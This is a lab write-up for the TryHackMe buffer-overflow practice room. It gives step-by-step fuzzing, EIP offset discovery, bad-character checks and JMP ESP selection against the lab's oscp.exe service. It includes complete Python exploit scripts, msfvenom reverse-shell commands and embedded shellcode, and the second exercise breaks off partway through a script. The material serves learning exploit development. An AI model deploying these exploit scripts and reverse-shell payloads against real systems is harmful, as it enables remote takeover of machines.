

# Buffer Overflow Prep

Here is a write-up/collection of notes for the tryhackme room on buffer overflows. In this repository, you should find my exploit scripts for a random set of the machines. The exercises got repetitive and so I didn't do write ups or include exploit scripts for all of them.

## Deploy VM

We gain access to the Windows machine using the following command:

`xfreerdp /u:admin /p:password /cert:ignore /v:10.10.167.45 /workarea`

Immunity is on the Desktop and should be opened as Administrator.

Once in, open the vulnerable executable which is in the Administrator's Desktop.


`oscp.exe` must be run (click the play button in Immunity) before it can be accessed.

## OVERFLOW1

We can connect to the running service with `nc`. 


Run the command `!mona config -set workingfolder C:\mona\%p`


### Fuzzing

To gain an understanding of the vulnerabile `oscp.exe` program, we can start by Fuzzing. This will run the program with increasingly large input in an attempt to crash it. A crash from too large of an input string implies there may be a buffer that we can take advantage of.

fuzzer.py
```
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.167.45"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

Running the python script gives us the following output:


### Crash Replication

Our next goal is to figure out how to control the EIP register in the CPU. We need to see how far away in memory it is from our buffer.

We can start by generating a long pattern using `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400`, which we will put into our `exploit.py` script.


exploit.py
```
import socket

ip = "10.10.167.45"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Then we run `exploit.py`.


In Immunity, run `!mona findmsp -distance 2400`, and the output will contain the offset.


The offset is 1978.

Now that we know this, we can set the offset to 1978, retn to "BBBB", and remove the payload. This allows us to see that we can overwrite the EIP.

`exploit.py` is changed to:
```
import socket

ip = "10.10.167.45"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978 
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Run `oscp.exe` again from Immunity and note the EIP is now overwritten with `42424242`.


### Bad Characters

Some characters will will cause problems, and so we need to avoid using them in our exploits. This step is so we can discover what these characters are.

We will use the mona command `!mona bytearray -b "\x00"` to generate a byte array without the null byte (we already know this is a bad character). 


This will be saved in `c:\mona\oscp\bytearray.bin`. 

On the attack machine we create a script called `generate.py` which will generate the same byte array.
```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

We then put the byte array into the payload of `exploit.py`. We restart `oscp.exe` and run `exploit.py`. 


We see that in the registers, the ESP points to `01A6FA30`

We can view a list of bad characters with the mona command `!mona compare -f c:\mona\oscp\bytearray.bin -a 01A6FA30` 


 
The bad characters are `00 07 08 2e 2f a0 a1`.

Change the contents of payload to the new byte array that doesn't include the bad characters.

```
\x01\x02\x03\x04\x05\x06\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```


We generate another byte array in mona. This time we exclude all the bad characters. `!mona compare -f c:\mona\oscp\bytearray.bin -a 0196FA30`.


The screen shows the following, indicating there are not any bad characters now:


### Finding a Jump Point

Next we look for a jump point which we can rewrite the retn value in `exploit.py` to. Note this is done in little endian.


The jump point we choose is `625011af` which is simply the first one presented.

### Generate Payload

We then generate shellcode using MSFVenom. 

`└─# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.231.2 LPORT=4444 EXITFUNCTION=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1" -f c`


We take this output and plug it into the payload variable in `exploit.py`.


### Prepending NOPs

We set the padding = "\x90" * 16 in `exploit.py`. This will be what is called a [NOP Sled](https://en.wikipedia.org/wiki/NOP_slide), which will make it easier for the exploit to 'land' in one of these operations and 'slide' into our shellcode.


The final `exploit.py` looks like this:

```
import socket

ip = "10.10.167.45"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978 
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
payload = ("\xb8\x72\xd9\x9d\xc4\xdb\xd5\xd9\x74\x24\xf4\x5d\x31\xc9"
"\xb1\x52\x31\x45\x12\x83\xed\xfc\x03\x37\xd7\x7f\x31\x4b"
"\x0f\xfd\xba\xb3\xd0\x62\x32\x56\xe1\xa2\x20\x13\x52\x13"
"\x22\x71\x5f\xd8\x66\x61\xd4\xac\xae\x86\x5d\x1a\x89\xa9"
"\x5e\x37\xe9\xa8\xdc\x4a\x3e\x0a\xdc\x84\x33\x4b\x19\xf8"
"\xbe\x19\xf2\x76\x6c\x8d\x77\xc2\xad\x26\xcb\xc2\xb5\xdb"
"\x9c\xe5\x94\x4a\x96\xbf\x36\x6d\x7b\xb4\x7e\x75\x98\xf1"
"\xc9\x0e\x6a\x8d\xcb\xc6\xa2\x6e\x67\x27\x0b\x9d\x79\x60"
"\xac\x7e\x0c\x98\xce\x03\x17\x5f\xac\xdf\x92\x7b\x16\xab"
"\x05\xa7\xa6\x78\xd3\x2c\xa4\x35\x97\x6a\xa9\xc8\x74\x01"
"\xd5\x41\x7b\xc5\x5f\x11\x58\xc1\x04\xc1\xc1\x50\xe1\xa4"
"\xfe\x82\x4a\x18\x5b\xc9\x67\x4d\xd6\x90\xef\xa2\xdb\x2a"
"\xf0\xac\x6c\x59\xc2\x73\xc7\xf5\x6e\xfb\xc1\x02\x90\xd6"
"\xb6\x9c\x6f\xd9\xc6\xb5\xab\x8d\x96\xad\x1a\xae\x7c\x2d"
"\xa2\x7b\xd2\x7d\x0c\xd4\x93\x2d\xec\x84\x7b\x27\xe3\xfb"
"\x9c\x48\x29\x94\x37\xb3\xba\x91\xcd\x5c\x38\xce\xd3\xa2"
"\x2c\x52\x5d\x44\x24\x7a\x0b\xdf\xd1\xe3\x16\xab\x40\xeb"
"\x8c\xd6\x43\x67\x23\x27\x0d\x80\x4e\x3b\xfa\x60\x05\x61"
"\xad\x7f\xb3\x0d\x31\xed\x58\xcd\x3c\x0e\xf7\x9a\x69\xe0"
"\x0e\x4e\x84\x5b\xb9\x6c\x55\x3d\x82\x34\x82\xfe\x0d\xb5"
"\x47\xba\x29\xa5\x91\x43\x76\x91\x4d\x12\x20\x4f\x28\xcc"
"\x82\x39\xe2\xa3\x4c\xad\x73\x88\x4e\xab\x7b\xc5\x38\x53"
"\xcd\xb0\x7c\x6c\xe2\x54\x89\x15\x1e\xc5\x76\xcc\x9a\xf5"
"\x3c\x4c\x8a\x9d\x98\x05\x8e\xc3\x1a\xf0\xcd\xfd\x98\xf0"
"\xad\xf9\x81\x71\xab\x46\x06\x6a\xc1\xd7\xe3\x8c\x76\xd7"
"\x21")
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

We start a listener and then run the exploit to get a shell!


## OVERFLOW2

This follows the same process as the first one! In each step, I am re-running the program and the exploit.


Setting up is all the same too.
`!mona config -set workingfolder C:\mona\%p` 

### Finding the EIP Offset

We run `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200` and copy the output into the payload of `exploit.py`.

`exploit.py` looks like:
```
import socket

ip = "10.10.216.76"
port = 1337

prefix = "OVERFLOW2 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

In Immunity, we run `!mona findmsp -distance 1200` to find the offset.


Then we set the offset variable in `exploit.py` to 634, the offset we discovered, after we set the retn variable in `exploit.py` to 'BBBB' to show we can overwrite EIP.

We appear to have control over the EIP!


### Find the Bad Characters

In Immunity, run `!mona bytearray -b "\x00"` to generate a byte array in the debugger.

We generate the same byte array in python using the following script:
```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```
and put the output into the payload variable in `exploit.py`. 

Our current contents of  `exploit.py`:
```
import socket

ip = "10.10.216.76"
port = 1337

prefix = "OVERFLOW2 "
offset = 634
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Note the ESP and plug it into the following mona command:

`!mona compare -f c:\mona\oscp\bytearray.bin -a ESP`

I had an issue here finding the  `bytearray.bin` file. To fix this, I went back and checked the exact file path that it was saved to. I had missed a `:` and  `/` in my workingfolder, meaning that the byte array was being saved to a file that looked very similar but no the same.



The bad characters are `00 23 24 3c 3d 83 84 ba bb`, but we know that a bad character makes the following one corrupt as well, our actual list of bad characters should be `\x00\x23\x3c\x83\xba`.

### Finding a Jump Point

Using the new bad characters, we will find a place to have our code jump to using the mona commande `!mona jmp -r esp -cpb "\x00\x23\x3c\x83\xba"`.

We choose to use `0x625011af` as our jump point, so in our `exploit.py` script, we will set our retn variable to `\xaf\x11\x50\x62`.

The current `exploit.py` should now look like

```
import socket

ip = "10.10.216.76"
port = 1337

prefix = "OVERFLOW2 "
offset = 634
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = ""
payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

### Generate Payload.

Using MSFVenom, we will generate shellcode that we will get the vulnerable system to execute.

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.209.62 LPORT=4444 EXITFUNC=thread -b "\x00\x23\x3c\x83\xba" -f c`

The output of will be put into the payload variable of `exploit.py`.

### Prepend NOPs

Create a NOP Sled! Set the padding variable to `"\x90" * 16`

The current exploit looks like

```
import socket

ip = "10.10.216.76"
port = 1337

prefix = "OVERFLOW2 "
offset = 634
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90"*16
payload = ("\xfc\xbb\x93\xd2\x45\xdb\xeb\x0c\x5e\x56\x31\x1e\xad\x01"
"\xc3\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x6f\x3a\xc7"
"\xdb\x8f\xbb\xa8\x52\x6a\x8a\xe8\x01\xff\xbd\xd8\x42\xad"
"\x31\x92\x07\x45\xc1\xd6\x8f\x6a\x62\x5c\xf6\x45\x73\xcd"
"\xca\xc4\xf7\x0c\x1f\x26\xc9\xde\x52\x27\x0e\x02\x9e\x75"
"\xc7\x48\x0d\x69\x6c\x04\x8e\x02\x3e\x88\x96\xf7\xf7\xab"
"\xb7\xa6\x8c\xf5\x17\x49\x40\x8e\x11\x51\x85\xab\xe8\xea"
"\x7d\x47\xeb\x3a\x4c\xa8\x40\x03\x60\x5b\x98\x44\x47\x84"
"\xef\xbc\xbb\x39\xe8\x7b\xc1\xe5\x7d\x9f\x61\x6d\x25\x7b"
"\x93\xa2\xb0\x08\x9f\x0f\xb6\x56\xbc\x8e\x1b\xed\xb8\x1b"
"\x9a\x21\x49\x5f\xb9\xe5\x11\x3b\xa0\xbc\xff\xea\xdd\xde"
"\x5f\x52\x78\x95\x72\x87\xf1\xf4\x1a\x64\x38\x06\xdb\xe2"
"\x4b\x75\xe9\xad\xe7\x11\x41\x25\x2e\xe6\xa6\x1c\x96\x78"
"\x59\x9f\xe7\x51\x9e\xcb\xb7\xc9\x37\x74\x5c\x09\xb7\xa1"
"\xf3\x59\x17\x1a\xb4\x09\xd7\xca\x5c\x43\xd8\x35\x7c\x6c"
"\x32\x5e\x17\x97\xd5\x6b\xe2\x46\x1b\x04\xf0\x68\x75\x88"
"\x7d\x8e\x1f\x20\x28\x19\x88\xd9\x71\xd1\x29\x25\xac\x9c"
"\x6a\xad\x43\x61\x24\x46\x29\x71\xd1\xa6\x64\x2b\x74\xb8"
"\x52\x43\x1a\x2b\x39\x93\x55\x50\x96\xc4\x32\xa6\xef\x80"
"\xae\x91\x59\xb6\x32\x47\xa1\x72\xe9\xb4\x2c\x7b\x7c\x80"
"\x0a\x6b\xb8\x09\x17\xdf\x14\x5c\xc1\x89\xd2\x36\xa3\x63"
"\x8d\xe5\x6d\xe3\x48\xc6\xad\x75\x55\x03\x58\x99\xe4\xfa"
"\x1d\xa6\xc9\x6a\xaa\xdf\x37\x0b\x55\x0a\xfc\x2b\xb4\x9e"
"\x09\xc4\x61\x4b\xb0\x89\x91\xa6\xf7\xb7\x11\x42\x88\x43"
"\x09\x27\x8d\x08\x8d\xd4\xff\x01\x78\xda\xac\x22\xa9\xda"
"\x52\xdd\x52")
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
